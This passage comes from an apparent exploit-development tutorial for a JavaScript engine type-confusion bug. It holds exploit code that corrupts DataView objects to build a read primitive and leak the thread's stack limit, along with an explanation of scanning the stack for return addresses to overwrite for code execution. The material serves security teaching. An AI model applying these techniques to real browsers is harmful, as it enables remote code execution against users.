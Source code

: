 ```javascript
    print("[+] Leaked stack from type->javascriptLibrary->scriptContext->threadContext->stackLimitForCurrentThread!");
    print("[+] Stack leak: 0x" + hex(stackAddress[1]) + hex(stackAddress[0]));

    // Compute the stack limit for the current thread and store it in an array
    var stackLeak = new Uint32Array(0x10);
    stackLeak[0] = stackAddress[0] + 0xed000;
    stackLeak[1] = stackAddress[1];

    // Print update
    print("[+] Stack limit: 0x" + hex(stackLeak[1]) + hex(stackLeak[0]));
}

main();
```

Executing the code shows us that we have successfully leaked the stack for our current thread

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion82.png" alt="">

Now that we have the stack located, we can scan the stack to locate a return address, which we can corrupt to gain code execution.

Locating a Return Address
---
Now that we have a read primitive _and_ we know where the stack is located. With this ability, we can now "scan the stack" in search for any return addresses. As we know, when a `call` instruction occurs, the function being called pushes their return address onto the stack. This is so the function knows where to return execution after it is done executing and is ready to perform the `ret`. What we will be doing is locating the place on the stack where a function has pushed this return address, and we will corrupt it with some data we control.

To locate an optimal return address - we can take multiple approaches. The approach we will take will be that of a "brute-force" approach. This means we put a loop in our exploit that scans the entire stack for its contents. Any address of that starts with `0x7fff` we can assume was a return address pushed on to the stack (this is actually a _slight_ misnomer, as other data is located on the stack). We can then look at a few addresses in WinDbg to confirm if they are return addresses are not, and overwrite them accordingly. Do not worry if this seems like a daunting process, I will walk you through it.

Let's start by adding a loop in our `exploit.js` which scans the stack.

```javascript
    (...)truncated(...)

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

    // dataview1 methods act on dataview2 object
    // Since vftable is located from 0x0 - 0x8 in dataview2, we can simply just retrieve it without going through our read64() function
    vtableLo = dataview1.getUint32(0x0, true);
    vtableHigh = dataview1.getUint32(0x4, true);

    // Extract dataview2->type (located 0x8 - 0x10) so we can follow the chain of pointers to leak a stack address via...
    // ... type->javascriptLibrary->scriptContext->threadContext
    typeLo = dataview1.getUint32(0x8, true);
    typeHigh = dataview1.getUint32(0xC, true);

```
